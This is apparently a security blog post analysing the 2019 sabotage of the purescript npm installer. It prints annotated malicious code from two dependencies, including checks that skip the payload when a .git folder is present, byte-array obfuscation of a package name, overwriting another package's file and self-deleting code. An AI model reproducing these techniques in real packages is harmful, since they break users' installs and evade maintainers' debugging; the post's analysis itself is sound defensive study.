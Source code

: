 ```yaml
---
layout: post
title: My Favourite Dep Malware: PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [purescript npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.


#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.


####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`    
#`tasks` array containing the `Passthrough` Stream Constructor. It'll call `tasks.unshift` twice, so that it winds up at index 2 later.`
if (argLen === 2) {
  if (typeof args[1] !== 'function') {
    throw new TypeError(`Expected a function to compare two package versions, but got ${
      inspectWithKind(args[1])
    }.`);
  }
} else {
  tasks.unshift(resolveSemverFromNpm); # call  `tasks.unshift 1`
}
#call `tasks.unshift 2`. Now the `PassThrough` constructor is at index 2 in the `tasks` array.
tasks.unshift(resolveFromNpm(modulePkgId));

try {
  const results = await Promise.all(tasks);
  let parent = module;
#Here comes a `do-while` loop that works out how the code is being run, by inspecting the `parent` property of each module in the chain. Check out the `path.endsWith("cli")`
  do {   
    parent = parent.parent;

    try {
      const {path} = parent;
#the attacker is deciding whether or not to run the exploit code, by checking on the version of the `purescript` npm installer, and if there is a `.git` working directory.  If the code detects a `.git` working directory, it'll skip the exploit. This is because `.git` directories aren't present in production environments, so it makes debugging this issue way harder.  The intent is to  determine if a particular version of an installer is being run, and if the code is being run in a environment where it could be easily debugged!
      if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
        parent = 'npm';
        break;
      }
    } catch (_) {}
  } while (parent);
#The purpose of this `parent` variable is just the layup for the exploit code if the above conditions are met to allow for it.
  if (typeof parent !== 'string') {
    return results[2];
  }`
#here's that `[2]` what's happening here is an if statement returning the `PassThrough` constructor in the case where the malicious code is being run, this breaks a related function to pull down some packages to complete the building of the software:

`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
#You'll see the same check here if the code is running in a debug or non production environment. But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    # `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );
  # store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
#this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
